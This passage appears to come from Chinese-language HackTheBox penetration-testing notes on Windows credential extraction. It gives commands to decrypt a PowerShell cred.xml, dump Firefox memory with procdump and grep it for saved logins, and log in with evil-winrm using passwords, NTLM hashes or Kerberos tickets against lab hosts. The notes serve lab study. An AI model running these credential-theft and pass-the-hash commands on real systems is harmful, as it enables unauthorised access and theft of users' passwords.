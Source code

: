 - ##### 家目录 + Mozilla Firefox ： Firefox password 敏感信息     > **[0x09 StreamIO (mssql注入,LFI,Firefox凭据泄露)](../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x09%20StreamIO%20(mssql注入,LFI,Firefox凭据泄露).md)** <
- ##### cred.xml 文件 ：powershell 命令获取明文密码
```powershell
powershell -c "$cred = Import-CliXml -Path [File]; $cred.GetNetworkCredential() | Format-List *"
```
- ##### Get-Process 中 Firefox 有进程运行，直接 dump
```powershell
.\procdump64.exe -ma 6424 -accepteula firefox.dmp
strings firefox.dmp |grep -ie "login_username\|login_password"
```

## Evil-WinRM

```
-S 如果指定了-c证书，通常都需要启用安全套接字加密，即给-S选项
-i 指定IP
-k 私钥
-u Username
-p Password
-H 指定hash
```

```bash
evil-winrm -i timelapse.htb -c legacyy_dev_auth.pfx.crt -k legacyy_dev_auth.pfx.decrypted.key -S
evil-winrm -i timelapse.htb -p 'E3R$Q62^12p7PLlC%KWaxuaV' -u svc_deploy -S
evil-winrm -i htb.local -u administrator -H 'c370bddf384a691d811ff3495e8a72e2'
KRB5CCNAME=./winrm_user.ccache evil-winrm -i dc.absolute.htb -r absolute.htb  (ccache文件链接)
``` 

```
download 下载文件
upload 上传文件
```


**如果网络上 NTLM 验证被禁用**
**0x01**
- pwsh
/etc/krb5.conf
```
[libdefaults]
        default_realm = SCRM.LOCAL
# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        SCRM.LOCAL = {
                kdc = dc1.scrm.local
                admin_server = dc1.scrm.local
        }

[domain_realm]
```
